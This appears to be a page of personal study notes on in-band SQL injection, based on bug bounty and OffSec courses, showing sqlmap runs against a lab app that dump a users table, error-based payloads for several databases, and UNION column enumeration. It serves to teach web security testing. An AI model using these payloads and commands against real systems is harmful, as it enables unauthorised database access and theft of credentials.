



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# In Band


**In-Band SQLi** occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.


## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](sqlmap.md).




```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```




```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```



```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```




```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```




## Error-Based


**Error-based SQLi** occurs when the attacker inserts SQL commands to deliberately generate database errors, which can used to expose database details, such as table and column names, allowing the attacker to extract sensitive information.


> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

On way of making a database to return verbose error messages, which often include its version, is by forcing erroneous data type conversions (Figure 3).

```sql
// MSSQL and PostgreSQL payload
cast(@@version as integer)
```

<figure><figcaption><p>Figure 3: Forcing a verbose error message disclosing the database's version.</p></figcaption></figure>

MySQL returns a `null` value instead of throwing an error, so its XML functions need to be used: `ExtractValue()` and `UpdateXML()`. The goal while using the former is to submit an invalid XPath expression. In this case, the `>` is used because it is a delimiter in XML and cannot be part of a valid XML node.

```sql
// MySQL payload
extractvalue('',concat('>',version()))
```

For Oracle databases, the syntax is becoming more complicated and a sub-query along with the double pipe operator (`||`) for concatenation needs to be used.

```sql
to_char(
  dbms_xmlgen.getxml(
    'select "'||
      (select substr(banner,0,30) from v$version where rownum=1)
    ||'" from sys.dual'
  )
) 
```

## UNION-Based


A **UNION SQLi** occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.


When using a `UNION` two conditions must be met:

1. The invididual queries must return the same number of columns.
2. The data types in each column must be compatible between the individual queries.

As a result, launching a successful `UNION` attack requires us to answer:

1. How many columns are returned from the original query?
2. Which columns are suitable to hold the results from the injected query?

We can enumerate the column number by incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

After finding the number of columns returned, we need to exfiltrate data which is usually in text form. As a result, we must enumerate which column in the original query can hold text data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>
